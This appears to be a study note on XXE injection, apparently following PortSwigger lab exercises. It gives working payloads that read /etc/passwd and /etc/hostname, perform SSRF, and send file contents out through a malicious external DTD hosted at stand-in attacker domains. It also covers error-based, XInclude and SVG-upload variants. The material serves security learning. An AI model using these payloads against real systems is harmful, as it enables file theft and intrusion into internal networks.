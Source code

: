 allow an attack to interfere with an application's processing of XML data
	- can view files on the application server filesystem and interact with any back-end or external system that the application can access
- can XXE into SSRF
# XML Basics
- XML is a markup language designed for data storage and transport, featuring a flexible structure that allows for the use of descriptively named tags. It differs from HTML by not being limited to a set of predefined tags. XML's significance has declined with the rise of JSON, despite its initial role in AJAX technology.
	- **Data Representation through Entities**: Entities in XML enable the representation of data, including special characters like `&lt;` and `&gt;`, which correspond to `<` and `>` to avoid conflict with XML's tag system.
	- **Defining XML Elements**: XML allows for the definition of element types, outlining how elements should be structured and what content they may contain, ranging from any type of content to specific child elements.
	- **Document Type Definition (DTD)**: DTDs are crucial in XML for defining the document's structure and the types of data it can contain. They can be internal, external, or a combination, guiding how documents are formatted and validated.
	- **Custom and External Entities**: XML supports the creation of custom entities within a DTD for flexible data representation. External entities, defined with a URL, raise security concerns, particularly in the context of XML External Entity (XXE) attacks, which exploit the way XML parsers handle external data sources: `<!DOCTYPE foo [ <!ENTITY myentity "value" > ]>`
	- **XXE Detection with Parameter Entities**: For detecting XXE vulnerabilities, especially when conventional methods fail due to parser security measures, XML parameter entities can be utilized. These entities allow for out-of-band detection techniques, such as triggering DNS lookups or HTTP requests to a controlled domain, to confirm the vulnerability.
# Exploiting XXE To Retrieve Files 
- introduce or edit a `DOCTYPE` element that defines an external entity containing the path to the file
- or edit a data value in the XML that is returned in the application's response, to make use of the defined external entity
if given the following:
	```XML
	<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck><productId>381</productId></stockCheck>
	```
modify as such:
	```XML 
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck><productId>&xxe;</productId></stockCheck>
	```
Lab: [[Exploiting XXE using external entities to retrieve files]]
# Exploiting XXE To Perform SSRF
use the following:
	`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`
then use the defined entity `xxe` within a data value
Lab: [[Exploiting XXE to perform SSRF attacks]]
# Blind XXE
- use OAST techniques
	- make a back-end request to a server you control
		`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`
Lab: [[Blind XXE with out-of-band interaction]]
## Blind XXE Using Parameter Entities
- sometimes regular entities are not allowed due to input validation 
	- use parameter entities instead
	- declared with `%` before `ENTITY`
	- referenced with  `%` as well
		```XML
		<?xml version="1.0" encoding="UTF-8"?>
		<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
		<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
		```
## Exploiting Blind XXE To Exfiltrate Data Out-Of-Band
- host a malicious DFD on your server that will be loaded in the vulnerable application, which will output sensitive contents and send it to the attacker server.
### Malicious DTD:
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://burp-collaborator-domain/?x=%file;'>">
%eval;
%exfiltrate;
```
The steps executed by this DTD include:
1. **Definition of Parameter Entities:**
    - An XML parameter entity, `%file`, is created, reading the content of the `/etc/hostname` file.
    - Another XML parameter entity, `%eval`, is defined. It dynamically declares a new XML parameter entity, `%exfiltrate`. The `%exfiltrate` entity is set to make an HTTP request to the collaborator or attacker's server, passing the content of the `%file` entity within the query string of the URL.
	    - `&#x25;` is the hexadecimal representation of `%` which is used to define `exfiltrate` parameter entity within `eval`
1. **Execution of Entities:**
    - The `%eval` entity is utilised, leading to the execution of the dynamic declaration of the `%exfiltrate` entity.
    - The `%exfiltrate` entity is then used, triggering an HTTP request to the specified URL with the file's contents
The attacker hosts this malicious DTD on a server under their control, typically at a URL like `http://web-attacker.com/malicious.dtd`.
### XXE Payload:
- To exploit a vulnerable application, the attacker sends an XXE payload:
	```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
	<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
	```
- This payload defines an XML parameter entity `%xxe` and incorporates it within the DTD. When processed by an XML parser, this payload fetches the external DTD from the attacker's server. 
- The parser then interprets the DTD inline, executing the steps outlined in the malicious DTD and leading to the exfiltration of the `/etc/hostname` file to the attacker's server.
Lab: [[Exploiting blind XXE to exfiltrate data using a malicious external DTD]]
## Exploiting Blind XXE To Retrieve Data Via Error Messages
- malicious DTD as follows:
		```xml
		<!ENTITY % file SYSTEM "file:///etc/passwd">
		<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
		%eval;
		%error;
		```
1. An XML parameter entity named `file` is defined, which contains the contents of the `/etc/passwd` file.
2. An XML parameter entity named `eval` is defined, incorporating a dynamic declaration for another XML parameter entity named `error`. This `error` entity, when evaluated, attempts to load a nonexistent file, incorporating the contents of the `file` entity as its name.
3. The `eval` entity is invoked, leading to the dynamic declaration of the `error` entity.
4. Invocation of the `error` entity results in an attempt to load a nonexistent file, producing an error message that includes the contents of the `/etc/passwd` file as part of the file name.
The malicious DTD is invoked with the following:
	```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
	<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
	```

Lab: [[Exploiting blind XXE to retrieve data via error messages]]
# Finding Hidden Attack Surface For XXE Injections
## `XInclude`
- when integrating client data into server-side XML documents, like those in backend SOAP requests, direct control over the XML structure is often limited, hindering traditional XXE attacks due to restrictions on modifying the `DOCTYPE` element
- `XInclude` attacks allow insertion of external entities within any data element of the XML document
- to execute, `XInclude` namespace and provide the path to the file that you wish to include
	```xml 
	productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
	```
Lab: [[Exploiting XInclude to retrieve files]]
## File Uploads
- files uploaded by users which are then processed on the server, can exploit vulnerabilities in how XML or XML-containing file formats are handled
	- SVG or DOCX files 
		- SVG is a XML-based format - can be used to submit malicious SVG images
		```
			<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image               xlink:href="file:///etc/hostname"></image></svg>
		```
OR 
	```
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	```
Latter is recommended. Paste this into a `.svg` file
Lab: [[Exploiting XXE via image file upload]]